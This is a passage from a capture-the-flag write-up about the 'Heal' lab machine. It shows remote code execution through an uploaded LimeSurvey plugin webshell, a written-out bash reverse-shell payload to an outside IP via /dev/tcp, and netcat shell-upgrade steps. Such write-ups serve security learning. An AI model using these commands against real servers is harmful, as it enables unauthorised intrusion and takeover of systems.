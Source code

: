 Now uploading leads to:

![image-20250514115153679](/img/image-20250514115153679.png)

I’ll click “Install”. It shows up in the list with the name from the `config.xml` file:

![image-20250514115334918](/img/image-20250514115334918.png)

#### Find Plugin

Looking around the file structure of LimeSurvey on [GitHub](https://github.com/LimeSurvey/LimeSurvey), there’s a `upload/plugins` directory:

![image-20250514115538665](/img/image-20250514115538665.png)

Visiting `/upload/plugins/ExampleSettings/` returns a 403, which is a good sign there’s something there. Visiting something else in that directory returns 404. Visiting `0xdf.php?cmd=id` shows RCE:

![image-20250514115656260](/img/image-20250514115656260.png)

Alternatively, there are repos out there with an example plugin to get RCE that also show how to do this. Some reference [CVE-2021-44967](https://nvd.nist.gov/vuln/detail/CVE-2021-44967), which isn’t really a CVE. In fact, the NIST description includes:

> NOTE: the Supplier’s position is that plugins intentionally can contain arbitrary PHP code, and can only be installed by a superadmin, and therefore the security model is not violated by this finding.

This isn’t a patchable vulnerability, but rather a fact that if someone can upload plugins, they effectively are in control of the machine.

#### Shell

I’ll add a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the `cmd` parameter in the URL like `0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'`. I’ll have to URL encode the `&` to `%26`, but the rest Firefox will handle for me. On submitting, it hangs, and there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.46 47880
bash: cannot set terminal process group (1114): Inappropriate ioctl for device
bash: no job control in this shell
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$

```

I’ll upgrade my shell with [the standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$ script /dev/null -c bash
<d/plugins/ExampleSettings$ script /dev/null -c bash        
Script started, output log file is '/dev/null'.
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@heal:~/limesurvey/upload/plugins/ExampleSettings$

```
